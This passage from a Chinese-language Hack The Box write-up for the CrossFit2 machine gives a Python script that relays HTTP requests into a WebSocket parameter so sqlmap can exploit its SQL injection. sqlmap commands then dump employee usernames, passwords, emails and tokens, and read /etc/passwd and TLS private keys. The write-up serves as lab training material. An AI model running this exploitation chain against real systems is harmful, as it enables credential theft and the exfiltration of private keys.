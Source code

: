     
    
    from websocket import create_connectionimport refrom http.server import BaseHTTPRequestHandler, HTTPServerfrom urllib.parse import unquoteimport threadingfrom socketserver import ThreadingMixIn  
    hostname = "localhost"serverport = 9000  
    def xt(msg):    matches = re.findall(r'token":"(.*?)"', msg)    return matches[0]  
    def send_msg(msg):    resp = ""    ws = create_connection("ws://gym.crossfit.htb/ws")    resp =  ws.recv()    cur_token = xt(resp)    msg = unquote(msg)    msg = msg.replace('"', "'")    d = '{"message":"available","params":"'+msg+'","token":"' + cur_token + '"}'    print(d)    ws.send(d)    resp = ws.recv()    #print(resp)    matches = re.findall(r'message":"(.*?)"', resp)    print(matches[0])    return matches[0]  
    #send_msg("1 and 2=2-- -")#send_msg("1 and 'a'='a'-- -")#exit(0)  
    class Handler(BaseHTTPRequestHandler):  
        def do_GET(self):        self.send_response(200)        param = self.path[5:]        self.send_header('Content-Type', 'text')        self.end_headers()        resp = send_msg(param)        self.wfile.write(bytes(resp, "utf-8"))  
    class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):    pass  
    def run():    server = ThreadingSimpleServer(('0.0.0.0', 9000), Handler)  
        try:        server.serve_forever()    except KeyboardInterrupt:        pass  
    if __name__ == '__main__':    run()

期间经过反复测试、修改，具体过程不在赘述，大家看脚本就明白了。运行结果截图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175824.png)看下payload：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175825.png)

  *   *   *   *   *   *   *   *   * 

    
    
    sqlmap -u http://127.0.0.1:9000/?id=1  --dbs --level 5 --risk 3  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C username --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C password --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C email --dump  
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "employees" -T employees -C email,token --dump --fresh-queries --threads 10

![]()

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175826.png)这里还可以读取文件，后面渗透需要用到；

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175827.png)

  *   *   *   *   *   *   *   * 

    
    
    sqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/httpd.confsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/passwdsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/unbound.confsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_server.keysqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_control.pemsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_control.keysqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /var/unbound/etc/tls/unbound_server.pemsqlmap -u http://127.0.0.1:9000/?id=1  --level 5 --risk 3 -D "crossfit" -T "membership_plans" -C "password" --file-read /etc/relayd.conf
